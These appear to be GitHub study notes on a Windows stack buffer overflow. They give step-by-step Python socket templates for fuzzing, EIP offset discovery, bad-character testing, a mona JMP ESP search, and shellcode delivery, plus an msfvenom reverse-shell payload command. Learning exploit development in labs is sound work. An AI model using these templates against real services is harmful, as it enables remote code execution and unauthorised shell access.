 # BufferOverflow Notes
Thanks to Legacyy for being a great teacher! Please check out his buffer overflow guide!  
[Legacyy](https://github.com/iilegacyyii)  

### 1 - Creating a socket to test the program.

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

buf = b""
buf += b"<FUNC> "
buf += b"A"*1000

s.send(buf)
print(s.recv(1024))
```

### 2 - Creating your cyclic pattern and overwriting your EIP

```
msf-pattern_create -l 1234
```
```
msf-pattern_offset -q <EIPAddress>
```

```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

cyclic_pattern = b"AddCyclicPattern"

buf = b""
buf += b"<FUNC> "
buf += cyclic_pattern

s.send(buf)
print(s.recv(1024))
```

### 3 - Testing for bad characters



```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

badchar_test = ""
badchars = [0x00,0x0D] 

for i in range(0x00, 0xFF + 1): # range(0x00, 0xFF) only returns up to 0xFE
        if i not in badchars:
                badchar_test += chr(i)

with open("badchars.bin", "wb") as f:
    f.write(badchar_test)

offset = <OFFSET>

buf = b""
buf += b"<FUNC> "
buf += "A" * offset
buf += b"BBBB"
buf += badchar_test

s.send(buf)
print(s.recv(1024))
```

### 4 - Finding your JMP ESP

```
!mona compare -a esp -f "c:\path\to\badchars.bin"
```

```
!mona jmp -r esp -cpb "\x00\x0A"
```

### 5 - Testing command execution

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset
buf += jmp_esp
buf += b"\xCC\xCC\xCC"

s.send(buf)
print(s.recv(1024))
```

```
msfvenom -p windows/exec -b '\x00\x0A' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

```
msfvenom -p windows/shell_reverse_tcp -b '\x00\x0A' -f python --var-name shellcode_shell LHOST="<IP>" LPORT=<PORT> EXITFUNC=thread
```

```python
import socket
import struct

HOST = "<Remote IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

shellcode_calc =  b""
shellcode_calc += b"<ShellcodePayload>"

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset 
buf += jmp_esp
buf += b"\x90" * 100
buf += shellcode_calc

s.send(buf)
print(s.recv(1024))
```

### Resources:
https://ir0nstone.gitbook.io/notes/  
http://exploit.education/phoenix/stack-zero/  
